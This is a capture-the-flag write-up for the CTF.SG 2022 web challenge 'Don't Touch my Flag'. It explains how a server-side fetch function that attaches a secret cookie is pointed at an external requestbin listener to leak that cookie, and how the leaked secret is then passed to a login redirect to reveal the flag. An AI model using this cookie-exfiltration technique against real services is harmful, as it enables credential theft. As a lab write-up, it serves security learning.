

# Don't Touch my Flag (CTF.SG 2022)

## Understanding how the website works

### Get Function

Firstly, from the index function, we see that it calls `/get`.
Looking at the `get` function, we see that it sends a request to the url, with
the `secret` as a cookie. Keep this in mind as we'll need to make use of the
`secret` to get the flag.
Lastly, it censors the response by converting everything into `*`.

### Flag Function

We see that the webpage uses the `get` function to get `\flag`, so that's
probably the best function to look into next.

Seems like all it does is it reveals the flag if `secret` is correct.

Based on these information, we could certainly get the value of `secret` and
write a script to send it as a cookie. However, the `\login` function does that
for us :O

### Login Function

We see that the login function will redirect us to the next webpage with
`secret` as a cookie parameter if `secret` as a argument passed in is correct.

### Steps to Solve

1. Get the value of `secret`.
2. Use the `login` function to send a request to `flag` (`/login?next=/flag&secret=secret`).
3. Done

### Getting Secret

As the `get` function sends a request with `secret` as a cookie, we can set up
a listener on an external website, which is used to see the values of the
request sent.

I went to https://pipedream.com/requestbin to set up a listener, and made a
`GET` request through `/get?uri={requestbin_link_here}`. Viola, we got the `secret`!

### Using Login to get Flag

Now, we just need to use `login` to send a request to `flag`, simply by doing `/login?next=/flag&secret=8byEt7F60cCSRpQs1jeAXQqByOsK5P5b`.
Ez claps, we got the flag :D

### Flag

`CTFSG{d0nT_toUcH_mY_c00k13s}`

